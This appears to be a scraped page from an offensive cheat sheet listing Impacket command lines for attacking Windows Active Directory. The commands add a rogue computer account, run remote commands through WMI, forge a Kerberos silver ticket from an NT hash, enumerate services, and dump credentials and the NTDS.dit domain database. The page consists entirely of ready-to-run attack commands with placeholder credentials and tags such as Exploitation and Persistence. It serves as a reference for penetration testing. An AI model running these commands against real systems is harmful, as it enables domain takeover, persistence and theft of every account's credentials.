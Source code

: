 [python3 addcomputer.py -method LDAPS -dc-ip 10.10.10.1 -computer-pass TestPassword321 -computer-name testComputer test.local/john:password123](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Persistence)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Password)
 -   [LDAP](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#LDAP)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-addcomputer-LDAPS/#Windows)

[python3 wmiexec.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#Password)
 -   [WMI](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#WMI)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/#Windows)

[python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Persistence)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Hash)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/#Windows)

[python3 services.py test.local/john:password123@10.10.10.1 list](https://wadcoms.github.io/wadcoms/Impacket-Services/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Impacket-Services/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-Services/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-Services/#Password)
 -   [RPC](https://wadcoms.github.io/wadcoms/Impacket-Services/#RPC)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-Services/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-Services/#Windows)

[python3 secretsdump.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Password)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Kerberos)
 -   [NTLM](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#NTLM)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/#Windows)

[python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Password)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Kerberos)
 -   [NTLM](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#NTLM)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump-NTDS/#Windows)
